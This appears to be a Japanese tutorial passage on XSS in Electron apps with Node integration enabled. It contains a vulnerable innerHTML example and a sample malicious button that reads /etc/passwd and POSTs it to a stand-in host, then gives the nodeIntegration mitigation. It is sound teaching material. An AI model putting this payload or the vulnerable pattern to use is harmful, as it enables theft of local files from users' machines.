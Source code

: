 ```html:index.html
<!DOCTYPE html>
<html>
  <head>
    <meta charset="UTF-8">
    <title>Hello World!</title>
    <script>
    const fs = require('fs');
    // sample.html をfs（OSが持っているファイル操作機能）で読み込む
    fs.readFile ('sample.html', (err, data) => {
      if (!err) {
        document.getElementById('app').innerHTML = data; // XSS!!
      }
    });
    </script>
  </head>
  <body>
    <div id="app">app div</a>
  </body>
</html>
```  


```html:sample.html
hello! This is sample.html<br>
<!-- 悪意あるスクリプト -->
<button onClick="var s = require('fs').readFileSync( '/etc/passwd','utf-8' );
var x = new XMLHttpRequest();console.log(s);
x.open('POST', 'http://example.jp/', true );
x.send( s );">push me</button>
```  

▼ 結果
<img src="https://raw.githubusercontent.com/masaumamichi/electron-first/master/images/xss.png">

 
このようにローカルファイルを取得してどこかに送信することも可能になる  
fsを使えばPC内のファイルをすべて削除することも可能

 
**緩和策**  

レンダラープロセスでnode.jsのAPIを使えなくすることができる  
node-integrationというプロパティを無効にする  

```javascript
  mainWindow = new BrowserWindow({width: 800, height: 600,
    webPreferences: { nodeIntegration : false } 
  });
```

ただし、node-integrationを再び有効にする方法やXSSパターンは他にもあるので、 

Electronにおけるセキュリティ問題は課題になっている。

まずは、innerHTMLなど外部スクリプトが実行される状態になるべくしないことが大事。

他のXSSパターンなど詳しくはこちら
→ 「Electronの倒し方」 http://utf-8.jp/public/2016/0307/electron.pdf  
